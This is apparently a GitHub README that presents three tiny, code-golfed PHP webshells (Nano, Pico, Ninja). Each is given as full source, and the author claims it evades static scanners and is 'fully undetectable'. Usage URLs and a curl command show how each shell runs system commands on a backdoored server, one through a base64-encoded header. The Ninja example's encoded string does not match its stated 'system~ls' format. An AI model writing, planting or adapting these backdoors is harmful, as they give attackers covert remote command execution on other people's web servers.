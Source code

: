 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;(@$x[p]=='_'?@$x[f]($x[c]):1);
```
#### Features
- 41 bytes in size
- Can't be detected by static code scanners
- Supports authentication
- No warnings on this fork version!

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Pico
```php
<?$x=$_GET;@$x[f]($x[c]);
```
#### Features
- 25 bytes in size
- Can't be detected by static code scanners
- No warnings on server logs!

#### Usage
`http://example.com/nano.php?f=function&c=command`

`f` is for function\
`c` is for command

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls`

### Ninja
```php
<?$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
